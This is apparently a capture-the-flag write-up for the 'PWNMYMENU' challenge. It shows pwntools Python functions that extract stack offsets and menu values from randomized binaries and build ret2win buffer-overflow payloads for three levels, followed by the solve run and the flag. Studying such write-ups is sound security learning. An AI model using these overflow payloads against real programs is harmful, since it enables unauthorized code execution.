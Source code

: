 # PWNMYMENU

### 392 pts

```
Do you like automation ? Well, you will have to automate some ret2win in order to get the flag :)

nc pwn.dvc.tf 8890 
```

Files: [pwnmymenu.tgz](./pwnmymenu.tgz)

## Analysis

We were given the entire sources of the challenge (wich is kinda weird), so understanding what to exploit is pretty easy:
- We need to pwn "lvl1" 5 times
- "lvl2" 5 times
- and "lvl3" 10 times

For each level, it's a simple ret2win with the size of the stack randomized in a range between [1; 511]. For the level 2 and 3, 2 other random variables are introduced.

When we connect to the netcat, we get the base64 of the current challenge compiled.

```
$ nc pwn.dvc.tf 8890
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAEBFAAAAAAABAAAAAAAAAACA4AAAAAAAAAAAAAEAAOAAN
AEAAHwAeAAYAAAAEAAAAQAAAAAAAAABAAEAAAAAAAEAAQAAAAAAA2AIAAAAAAADYAgAAAAAAAAgA
<snip>
AAAAACAEAAAAAAAAHQAAABMAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAA
AAAAsDQAAAAAAABKAgAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAA
AAAAAAAAAAAAAPo2AAAAAAAAHwEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
aaaa
Enter your payload:
---------------------
---------------------
[+]    You failed exploiting my program ...
```

(Note that the IO is broken, the author probably forgot to flush the stdout when printing, so it makes everything a bit more annoying)

## Level 1

Basic ret2win, the only difficulty is to retrieve the size of the stack from the compiled binary. After the CTF, I saw that i could have used ELF.disasm from pwntools to have an easier way to retrieve the size of the stack. Anyway here's how I did it:

```python
e = ELF(f"level1.{n}", checksec=False)

vuln_func = e.sym["vuln"]
size = e.read(vuln_func+11, 2).hex()
if size[2] == "4":
	OFFSET = int(size[:2], 16)+8
else:
	size = size[2:] + size[:2]  # flemme de unpack
	OFFSET = int(size, 16)+8
```
In short: we go to the `vuln` function and look at the `sub rsp, 0x??` instruction at the function prologue. 
I'm curious on how the CPU knows the size of the instruction in order to know how to get the hex size, my dirty fix was to check if the next byte is "0x48" wich is the first byte of the next instruction. If so, I take the next 2 other bytes (max value is 511 so I just need 4 bytes, not all of them)

So here's the function that needs to be called 5 times:
```python
def payload_level1(n):
	e = ELF(f"level1.{n}", checksec=False)

	vuln_func = e.sym["vuln"]
	win_func = e.sym["win"]
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 2

Same as level 1, except now we have to find the `menu` value and the `submenu`, menu is in [1; 6] and submenu in [a, b, c, d, e]

This time, I find the instruction `cmp` for both of the values and extract the random value here. And for the stack, I just re-used the same code for the level 1.
```python3
main_func = e.sym["main"]
submenu_func = e.sym["submenu"]
menu = e.read(main_func+75, 2)[1]
submenu = e.read(submenu_func+55, 2)[1]
```
Nothing special, here's the function:

```python
def payload_level2(n):
	e = ELF(f"level2.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+75, 2)[1]
	
	submenu = e.read(submenu_func+55, 2)[1]

	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8
	
	payload = b''.join([
		chr(menu).encode("utf-8"),
		b"\n",
		chr(submenu).encode("utf-8"),
		b"\n",
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 3

For this level, `menu` and `submenu` are longs, but at the end it's the exact same code as for level 2, I just had to change the offsets.

Here's the function:
```python
def payload_level3(n):
	e = ELF(f"level3.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+78, 8)
	
	submenu = e.read(submenu_func+55, 8)
	
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		menu,
		submenu,
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```


## Script solve

You can find my entire script [here](./solve.py). When putting everything together I had a lot of trouble with the IO, sometimes it flushes when i'm supposed to read the base64 of the binary I tried to manage it, but it was not really working. I just restarted the script until it didn't crashed instead of fixing it. (It also takes a lot of time because I had a hard time reading the base64 so I just did a `recvrepeat(2)`)

```
python3 solve.py
[+] Opening connection to pwn.dvc.tf on port 8890: Done
PWNING LVL 1
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWING LVL 2
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWNING LVL 3
Reading file 0... Sending payload n°0
<snip>
Reading file 9... Sending payload n°9
[*] Switching to interactive mode
Submenu:
Enter your payload:
---------------------
<snip
---------------------
[+]    Level 1 finished successfully !
---------------------
<snip>
---------------------
[+]    Level 2 finished successfully !
---------------------
---------------------
<snip>
---------------------
---------------------
[+]    Level 3 finished successfully !
[+]    Flag is: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`
[*] Got EOF while reading in interactive
```

Flag: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`
